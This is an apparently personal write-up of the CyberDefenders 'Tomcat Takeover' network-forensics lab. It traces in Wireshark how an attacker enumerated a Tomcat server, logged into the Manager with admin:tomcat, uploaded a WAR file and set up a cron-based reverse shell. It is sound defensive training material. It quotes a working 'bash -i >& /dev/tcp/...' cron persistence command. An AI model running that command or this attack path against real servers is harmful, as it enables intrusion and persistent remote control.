









# Tomcat Takeover (CyberDefenders Network Forensics / Wireshark Lab)

_A hands-on SOC investigation of web reconnaissance, Tomcat Manager abuse, credential compromise, malicious WAR deployment, reverse-shell activity, and persistence using Wireshark._

---

## Table of Contents

- [Project Summary](#project-summary)
- [Incident Overview](#incident-overview)
- [Skills Demonstrated](#skills-demonstrated)
- [Investigation Process](#investigation-process)
  - [Stage 1: Identify the Attacker IP](#stage-1-identify-the-attacker-ip)
  - [Stage 2: Identify the Attacker's Geographic Origin](#stage-2-identify-the-attackers-geographic-origin)
  - [Stage 3: Identify the Tomcat Web Port](#stage-3-identify-the-tomcat-web-port)
  - [Stage 4: Identify the Enumeration Tool](#stage-4-identify-the-enumeration-tool)
  - [Stage 5: Identify the Administrative Interface](#stage-5-identify-the-administrative-interface)
  - [Stage 6: Identify the Successful Credentials](#stage-6-identify-the-successful-credentials)
  - [Stage 7: Identify the Malicious WAR File](#stage-7-identify-the-malicious-war-file)
  - [Stage 8: Identify the Reverse-Shell Callback](#stage-8-identify-the-reverse-shell-callback)
- [Attack Timeline](#attack-timeline)
- [Key Findings](#key-findings)
- [Indicators and Investigation Artifacts](#indicators-and-investigation-artifacts)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Remediation Recommendations](#remediation-recommendations)
- [Lessons Learned](#lessons-learned)
- [What I Would Improve Next Time](#what-i-would-improve-next-time)
- [References](#references)

---

## Project Summary

> **What is this project?**
>
> I completed the CyberDefenders **Tomcat Takeover** lab, a network-forensics investigation involving reconnaissance against an Apache Tomcat web server, directory enumeration, access to the Tomcat Manager interface, credential abuse, malicious WAR-file deployment, reverse-shell activity, and persistence.

Using Wireshark, I identified the suspicious source IP, analyzed HTTP requests and responses, determined which Tomcat administrative path was discovered, extracted successfully used Basic Authentication credentials, identified the uploaded WAR file, and traced the attacker's callback destination.

This lab strengthened my ability to investigate a web-server compromise from packet-capture evidence rather than relying only on endpoint or SIEM telemetry.

---

## Incident Overview

The captured traffic showed an external system probing a Tomcat web server and requesting many potential administrative and application paths. The activity progressed from reconnaissance into authenticated access to the Tomcat Manager interface.

After gaining access, the attacker uploaded a WAR file through the Tomcat Manager deployment functionality. Subsequent traffic showed interactive command execution and a Bash reverse-shell command configured through cron.

The high-level attack sequence was:

```text
Port and service reconnaissance
        ↓
Web directory enumeration
        ↓
Tomcat Manager discovery
        ↓
Successful authentication
        ↓
Malicious WAR upload
        ↓
Command execution
        ↓
Reverse shell
        ↓
Cron-based persistence
```

---

## Skills Demonstrated

- Wireshark display-filter construction
- IPv4 and TCP conversation analysis
- HTTP request and response analysis
- Identifying suspicious scanning and enumeration behavior
- Inspecting HTTP User-Agent strings
- Understanding HTTP Basic Authentication
- Extracting credentials from parsed HTTP fields
- Following HTTP/TCP streams
- Identifying Java WAR deployment activity
- Recognizing reverse-shell commands
- Correlating network events into an attack timeline
- Distinguishing attacker-to-server traffic from server-to-attacker callbacks
- Documenting network-forensics findings for a SOC investigation

---

## Investigation Process

### Stage 1: Identify the Attacker IP

- **Objective:** Determine which source IP was responsible for suspicious requests against the web server.
- **Actions:**
  - Filtered the capture for HTTP traffic.
  - Reviewed **Statistics → Conversations → IPv4**.
  - Compared the systems communicating with the web server.
  - Inspected request patterns and HTTP response codes.
- **Useful Wireshark filter:**

```wireshark
http
```

A more focused filter after identifying the suspicious host:

```wireshark
ip.addr == 14.0.0.120 && http
```

- **Evidence:**

```text
Suspected attacker: 14.0.0.120
Web server:          10.0.0.112
Observed behavior:   Repeated requests to numerous web paths
Responses:           Multiple 404 Not Found and 401 Unauthorized responses
```

The large number of requests alone was not enough to label the source malicious. The stronger indicator was the repeated probing of many different administrative and application paths.

- **Result:**

```text
14.0.0.120
```

> 

> 

---

### Stage 2: Identify the Attacker's Geographic Origin

- **Objective:** Determine the country associated with the attacker's public IP address.
- **Actions:**
  - Performed a WHOIS lookup for `14.0.0.120`.
  - Reviewed the network registration information.
- **Evidence:**

```text
Netname: CHINANET-GD
Description: CHINANET Guangdong province network
Organization: China Telecom
Country code: CN
```

- **Result:**

```text
China
```

> 

> **Analyst note:** WHOIS or GeoIP information identifies the registered or geolocated network associated with an IP address. It does not prove the physical location of the human attacker, who could be using a proxy, VPN, compromised host, or other relay infrastructure.

---

### Stage 3: Identify the Tomcat Web Port

- **Objective:** Determine which open port exposed the web server interface.
- **Actions:**
  - Inspected an HTTP request from the attacker.
  - Expanded the TCP and HTTP fields in Wireshark.
  - Reviewed the destination port and `Host` header.
- **Evidence:**

```text
TCP destination port: 8080
Service label:         http-alt
Host header:           10.0.0.112:8080
Full request URI:      http://10.0.0.112:8080/
```

- **Result:**

```text
8080
```

> 

---

### Stage 4: Identify the Enumeration Tool

- **Objective:** Determine which tool the attacker used to enumerate directories and files.
- **Actions:**
  - Inspected HTTP request headers.
  - Reviewed the `User-Agent` field.
- **Evidence:**

```text
User-Agent: gobuster/3.6
```

The request pattern also matched directory enumeration behavior, with many paths being requested in a short period of time.

- **Result:**

```text
Gobuster
```

> 

---

### Stage 5: Identify the Administrative Interface

- **Objective:** Determine which administrative directory the attacker discovered.
- **Actions:**
  - Reviewed the attacker's requested URIs.
  - Identified repeated requests associated with Tomcat Manager.
- **Evidence:**

```text
/manager
/manager/
/manager/html
/manager/deploy
/manager/jmxproxy
/manager/list
```

The root administrative directory discovered during enumeration was:

- **Result:**

```text
/manager
```

> 

---

### Stage 6: Identify the Successful Credentials

- **Objective:** Determine which credentials were successfully used to access the Tomcat Manager interface.
- **Actions:**
  - Filtered attacker HTTP traffic.
  - Focused on requests containing authentication data.
  - Expanded the HTTP `Authorization` field in the packet-details pane.
- **Useful Wireshark filter:**

```wireshark
ip.addr == 14.0.0.120 && http.authorization
```

- **Evidence:**

```text
Authorization: Basic YWRtaW46dG9tY2F0
Wireshark-decoded credentials: admin:tomcat
```

HTTP Basic Authentication encodes the `username:password` pair using Base64. Wireshark decoded the field directly in the packet-details pane.

- **Result:**

```text
admin:tomcat
```

> 

---

### Stage 7: Identify the Malicious WAR File

- **Objective:** Determine the filename uploaded through the Tomcat Manager interface.
- **Actions:**
  - Filtered for HTTP POST requests involving the attacker.
  - Located the upload request to Tomcat Manager.
  - Used **Follow HTTP Stream** to inspect the multipart form data.
- **Useful Wireshark filter:**

```wireshark
ip.addr == 14.0.0.120 && http.request.method == "POST"
```

- **Evidence:**

```text
POST /manager/html/upload
Content-Type: multipart/form-data
Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"
Content-Type: application/octet-stream
```

A `.war` file is a Java **Web Application Archive** that can be deployed by Tomcat. In this incident, the uploaded WAR was associated with the attacker's attempt to establish remote command execution.

- **Result:**

```text
JXQOZY.war
```

> 

---

### Stage 8: Identify the Reverse-Shell Callback

- **Objective:** Determine where the compromised server connected back after the malicious application was deployed.
- **Actions:**
  - Continued examining traffic chronologically after the WAR upload.
  - Moved to the next relevant stream.
  - Identified interactive shell commands.
  - Inspected the Bash reverse-shell command and cron configuration.
- **Evidence:**

```bash
whoami
root

cd /tmp
pwd
/tmp

echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron
crontab -l
```

The reverse-shell command explicitly identifies the callback destination:

```text
/dev/tcp/14.0.0.120/443
```

- **Result:**

```text
14.0.0.120:443
```

The cron entry also indicates an attempt to maintain persistence by repeatedly launching the callback.

> 

---

## Attack Timeline

| Stage | Activity | Evidence |
|---|---|---|
| Reconnaissance | `14.0.0.120` probes services and the web application | Repeated attacker-to-server requests |
| Web enumeration | Numerous web paths are requested | HTTP requests with `User-Agent: gobuster/3.6` |
| Admin discovery | Tomcat Manager paths are identified | Requests to `/manager` and `/manager/html` |
| Authentication | Valid Tomcat Manager credentials are used | HTTP Basic Auth decodes to `admin:tomcat` |
| Payload deployment | A WAR file is submitted to Tomcat Manager | Multipart upload containing `JXQOZY.war` |
| Command execution | Interactive shell commands are observed | `whoami`, `cd /tmp`, `pwd` |
| Privilege context | Shell runs with elevated privileges | `whoami` returns `root` |
| Reverse shell | Server is instructed to connect to attacker infrastructure | `/dev/tcp/14.0.0.120/443` |
| Persistence | Reverse-shell command is written into cron | `crontab` commands and recurring cron entry |

---

## Key Findings

| Finding | Value |
|---|---|
| Attacker IP | `14.0.0.120` |
| Target web server | `10.0.0.112` |
| Attacker IP registration country | China |
| Tomcat HTTP port | `8080` |
| Enumeration tool | Gobuster 3.6 |
| Administrative directory | `/manager` |
| Successful credentials | `admin:tomcat` |
| Malicious uploaded file | `JXQOZY.war` |
| Reverse-shell callback | `14.0.0.120:443` |
| Shell privilege observed | `root` |
| Persistence mechanism | Cron |

---

## Indicators and Investigation Artifacts

```text
14.0.0.120
10.0.0.112
10.0.0.112:8080
/manager
/manager/html
gobuster/3.6
admin:tomcat
JXQOZY.war
14.0.0.120:443
```

Protocols and artifacts important to the investigation:

| Protocol / Artifact | Relevance |
|---|---|
| TCP | Connection-oriented transport used by the observed web and callback traffic |
| HTTP | Exposed reconnaissance, enumeration, authentication, and payload upload activity |
| HTTP Basic Authentication | Carried the Tomcat Manager username and password |
| Multipart form data | Used to upload the WAR file |
| WAR | Java web-application package deployable through Tomcat |
| Bash `/dev/tcp` | Used to create a reverse TCP connection |
| Cron | Used in the observed persistence attempt |

---

## MITRE ATT&CK Mapping

The following techniques are reasonable mappings based on the packet-capture evidence:

| Technique | Relevance |
|---|---|
| **T1595 – Active Scanning** | The attacker probed the target and generated scanning/enumeration traffic. |
| **T1083 – File and Directory Discovery** | Web paths and administrative directories were systematically enumerated. |
| **T1078 – Valid Accounts** | Valid Tomcat Manager credentials were used to access the administrative interface. |
| **T1190 – Exploit Public-Facing Application** | The public-facing Tomcat service was abused as the entry point for compromise. |
| **T1505.003 – Web Shell** | A malicious WAR was deployed through the web application server to obtain command execution. |
| **T1053.003 – Cron** | A cron job was created to repeatedly launch the reverse shell. |
| **T1071.001 – Web Protocols** | HTTP was used extensively during reconnaissance, authentication, and payload deployment. |

> **Analyst note:** ATT&CK mappings should reflect evidence actually visible in the capture. Avoid claiming a specific exploit, malware family, or offensive framework unless the evidence supports it.

---

## Remediation Recommendations

- Remove or restrict external access to the Tomcat Manager interface.
- Replace default, weak, or reused credentials with strong unique credentials.
- Review the host for unexpected files, processes, services, and scheduled tasks.
- Remove malicious cron entries and investigate other persistence mechanisms.
- Alert on unusual outbound connections from web servers, especially connections initiated immediately after web uploads or administrative actions.


---

## Lessons Learned


- **Follow HTTP Stream** is extremely useful for reconstructing uploads and request bodies, but it is not always the fastest place to find every artifact.
- Wireshark's parsed packet fields can be faster than stream reconstruction for values such as HTTP Basic Authentication credentials.
- `http.authorization` is a useful field for locating authentication-bearing requests.
- Following activity chronologically after a suspicious upload can reveal what happened next.
- Network evidence can reveal command execution and persistence even without endpoint logs when the relevant traffic is visible in plaintext.

---

## What I Would Improve Next Time

- Use protocol-specific fields earlier instead of relying too heavily on **Follow Stream**.
- Practice identifying TCP connection initiation using SYN flags so reverse-shell callbacks can be detected without already knowing the stream.
- Continue documenting not just the answer to each investigation question, but the evidence and reasoning that supports the conclusion.

---

## References

- [CyberDefenders Tomcat Takeover Lab](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)
- [Apache Tomcat Documentation](https://tomcat.apache.org/)
- [MITRE ATT&CK](https://attack.mitre.org/)
